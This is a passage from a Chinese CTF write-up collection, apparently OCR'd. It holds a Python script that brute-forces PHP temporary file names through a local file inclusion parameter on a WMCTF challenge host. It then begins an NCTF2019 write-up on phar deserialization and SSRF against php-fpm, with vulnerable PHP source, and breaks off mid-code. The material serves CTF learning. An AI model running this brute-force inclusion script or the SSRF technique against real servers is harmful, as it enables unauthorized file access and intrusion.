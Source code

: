     if __name__ == "__main__":
        generate_tmp_files()


    #!/usr/bin/env python
    # -*- coding: utf-8 -*-
    
    import requests
    import string
    
    charset = string.digits + string.letters
    
    host = "web_checkin2.wmctf.wetolink.com"
    port = 80
    base_url = "http://%s:%d" % (host, port)
    
    
    def brute_force_tmp_files():
        for i in charset:
            for j in charset:
                for k in charset:
                    for l in charset:
                        for m in charset:
                            for n in charset:
                                filename = i + j + k + l + m + n
                                url = "%s/index.php?content=/tmp/php%s" % (
                                    base_url, filename)
                                print url
                                try:
                                    response = requests.get(url)
                                    if 'flag' in response.content:
                                        print "[+] Include success!"
                                        return True
                                except Exception as e:
                                    print e
        return False
    

    def main():
        brute_force_tmp_files()
    
    
    if __name__ == "__main__":
        main()

## [NCTF2019]phar matches everything
关键词：phar反序列化；ssrf打php-fpm

WP本来不想发的，但是这道题BUU的环境有一些小变动。希望能帮到一些卡住的人。并且这道题也有很多值得学习的地方。

github把源码down下来：

    catchmine.php
    <?php
        class Easytest{
           protected $test;
            public function funny_get(){
                return $this->test;
            }
        }
        class Main {
            public $url;
            public function curl($url){
                $ch = curl_init();  
                curl_setopt($ch,CURLOPT_URL,$url);
                curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
                $output=curl_exec($ch);
                curl_close($ch);